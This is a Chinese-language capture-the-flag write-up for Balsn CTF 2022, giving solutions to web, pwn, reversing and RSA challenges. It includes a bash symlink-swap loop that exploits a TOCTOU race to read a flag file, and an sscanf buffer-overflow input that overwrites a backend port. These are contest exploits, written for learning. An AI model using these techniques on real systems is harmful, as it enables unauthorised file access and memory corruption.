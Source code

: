 # Balsn CTF 2022
### welcome
簽到題。Flag 是網站圖片上的文字。

### my first app
題目是一個用 Next.js 寫的網站。Flag 放在 `globalVars.FLAG` ，但定義後並未在其他地方使用。

注意到 Next.js （和許多現代的框架）會在前端渲染網頁內容，`globalVars` 有機會被傳送到前端。在所有 javascript 檔案裡搜尋 `BALSN{` 便能找到 `BALSN{hybrid_frontend_and_api}`。

### Health Check 1
題目是一個看起來什麼也沒有的網站，沒有提供 source code。

觀察 response header 會發現網站使用 Uvicorn，因此能進一步（用搜尋引擎）猜到有利用 FastAPI，依據[官方文件](https://fastapi.tiangolo.com/tutorial/metadata/#docs-urls)得到 `/docs` 的路徑，可列出所有 api 的說明。

其中 `/new` 的功用是上傳包含 `run` 的 zip file，`run` 是可執行的 script 或 binary。伺服器每三十秒會執行 `run`。接著在 `../../` 得到以下檔案：

```
total 40
drwxrwxr-x  4 healthcheck uploaded 4096 Sep  3 14:43 .
drwx------  8 healthcheck uploaded 4096 Sep  3 14:43 ..
-rw-r--r--  1 healthcheck uploaded   62 Sep  3 13:55 Dockerfile
drwxr-xr-x  2 healthcheck uploaded 4096 Sep  3 14:43 __pycache__
-rw-r--r--  1 healthcheck uploaded 2892 Sep  3 13:52 apiserver.py
-rw-r--r--  1 healthcheck uploaded 2013 Sep  3 14:39 background.py
drwx--x--x 57 healthcheck uploaded 4096 Sep  3 15:58 data
-r--r-----  1 healthcheck uploaded   50 Sep  3 13:58 flag1.py
-r--r-----  1 healthcheck uploaded   35 Sep  3 13:58 flag2
-rwx------  1 healthcheck uploaded  497 Sep  3 13:58 launch.sh
```
我們可以取得 source code，不幸的是，`run` 以 `nobody` 執行，無法讀取 flag1 和 flag2。
```
total 20
drwxr-xr-x 2 healthcheck uploaded    4096 Sep  3 14:43 .
drwxrwxr-x 4 healthcheck uploaded    4096 Sep  3 14:43 ..
-rw-r--r-- 1 healthcheck healthcheck 3090 Sep  3 14:43 apiserver.cpython-310.pyc
-rw-r--r-- 1 healthcheck healthcheck 1928 Sep  3 14:43 background.cpython-310.pyc
-rw-r--r-- 1 healthcheck uploaded     172 Sep  3 14:43 flag1.cpython-310.pyc
```
然而，`__pycache__` 和底下的檔案有開放讀取，可從`flag1.cpython-310.pyc` 中取得 flag。

`BALSN{y37_4n0th3r_pYC4ch3_cHa1leN93???}`

### Health Check 2
接續前題。
`background.py` 裡能找到以下段落：
```python=
if 'docker-entry' in os.listdir(path_name):
    # experimental
    container_name = path_name.name + random.randbytes(8).hex()
    await asyncio.create_subprocess_shell(f'sleep 60; docker kill {container_name} &')
    await asyncio.create_subprocess_shell(f'sudo chmod -R a+rwx {path_name}; cd {path_name}; chmod a+x ./docker-entry; docker run --rm --cpus=".25" -m="256m" -v=$(realpath .):/data -u=user -w=/data --name {container_name} sandbox /data/docker-entry')
else:
    await asyncio.create_subprocess_shell(f'sudo chmod -R a+rwx {path_name}; cd {path_name}; sudo -u nobody timeout --signal=KILL 60 ./run')
```
Zip 裡有 `docker-entry` 會執行上面的分支。Api 文件沒提到這個功能，所以很可能有問題。不過看完後暫時沒有想法。

```python=
@app.get('/{dir_name}')
async def get_status(dir_name: str):
    file = data_path / dir_name / 'status.json'
    if not file.resolve().is_relative_to((data_path / dir_name).resolve()):
        return HTTPException(404, detail='no status')
    try:
        with open(file, 'r') as fp:
            return fp.read()
    except:
        return HTTPException(404, detail='no status')
```
接著看 api 的寫法，明顯是在防止 symbolic link，但實作上有 TOCTOU race condition，於是嘗試利用。

```bash=
#!/bin/bash
while :; do
    ln -sf status.json status.json
    ln -sf ../../flag2 status.json
done
```
接著跑 `while :; do curl $ENDPOINT; done`。指到 `status.json` 會回傳 `Internal Error`，指到 `flag2` 會回傳 `no status`，實測後在 100 次 request 內能拿到 flag。

`BALSN{d0cK3r_baD_8ad_ro07_B4d_b@d}`

Intended solution 是在 docker 裡建立 suid binary，讓下一次 `run` 的執行能提取權限。
### Flag Market 1
這題的架構是有個開放連線的服務，需透過該服務去存取 backend。Backend 是一個 python 伺服器。

`xinetd-flag1` 提示 flag1 是在 backend 的一項服務。
```
service backend-flag1
{
...
        server = /backend/run_flag1.sh
...
        user = backend
	port = 31337
...
}

```
```bash
#!/bin/bash

echo $FLAG1
```
`run_flag1.sh` 的內容很單純，只要將連線的 port 從 python 伺服器換成 flag1 就能拿到 flag。

```c=
void connection_handler(int sock_fd)
{
    char request[MAX_REQ_BUF] = {};
    char method[MAX_BUF] = {};
    char path[MAX_BUF] = {};
    char port[MAX_BUF] = {};
    char host[MAX_BUF] = {};
    ...
    snprintf(host, MAX_BUF, "%s", BK_HOST);
    snprintf(port, MAX_BUF, "%d", BK_PORT);

    reqLen = read_input(sock_fd, request, MAX_REQ_BUF);

    n = sscanf(request, "%s /%s HTTP/1.1", method, path);
    ...
```
`sscanf` 有 buffer overflow 的問題，傳送 `"A /" + "A" * MAX_BUF + "31337"` 能蓋掉 port。

### Flag Market 2
`backend.py` 要求構造滿足若干條件的 request 。基本上可以抄 `curl -v` 的輸出。比較麻煩的是 payload 裡要有 ascii 0~255 的所有字元，url encode 後可能會超過 `MAX_REQ_BUF = 1024`。經過嘗試，很多不可視字元不須編碼也能正確解析，因此得以壓到 1024 個字元內。
### Cairo Reverse
```
# Declare this file as a StarkNet contract.
%lang starknet

from starkware.cairo.common.cairo_builtins import HashBuiltin

@view
func get_flag{
    syscall_ptr : felt*,
    pedersen_ptr : HashBuiltin*,
    range_check_ptr,
}(t:felt) -> (res : felt):
    if t == /* Censored */:
        return (res=0x42414c534e7b6f032fa620b5c520ff47733c3723ebc79890c26af4 + t*t)
    else:
        return(res=0)
    end
end
```
給編譯完的結果，求 t 的數值。

隨便輸入 t ，比對編譯結果。
```
39c39
<             "0x800000000000010fffffffffffffffffffffffffffffff00000000000000002",
---
>             "0x800000000000010fffffffffffffffffffffffffffe2919e3d696087d12173e",
106c106
<                         "end_col": 32,
---
>                         "end_col": 38,
```
將 t 的長度補到 `end_col` 一樣，`t = 0xfffffffffffffffffffffff` 的結果是：
```
39c39
<             "0x800000000000010fffffffffffffffffffffffff00000000000000000000002",
---
>             "0x800000000000010fffffffffffffffffffffffffffe2919e3d696087d12173e"
```
多試幾個數字可以發現除了末位外是將 t 和一個大常數 xor，最後得到 `t = 0x001d6e61c2969f782ede8c3`。

`BALSN{read_data_from_cairo}`

### Propaganda
用 `wasm2c` 反編譯後會得到很多式子，乍看下可以耗費一番苦功用 z3 解，但試了幾個輸入後發現程式只是將 bit 的順序重新排列，

`BALSN{ya_sdelal_etot_challenge_za_den_do_ctf}`
### Yet another RSA with hint

正常的 RSA， p 和 q 的 bit length 一樣，提示 p 在 2 進位 ~ 199 進位下的 digit sum。

注意到 N 在 K 進位下的 digit sum 相當於除以 K - 1 的餘數，依中國剩餘定理得到 p = r (mod m)，其中 m 是個很大的數字。

如果 m > p ， r 就是答案了，但 m 還不夠大，這個情況相當於洩漏 p 的低位資訊，可利用 Coppersmith's attack。實作上使用 sage 的 `small_roots` 即可。
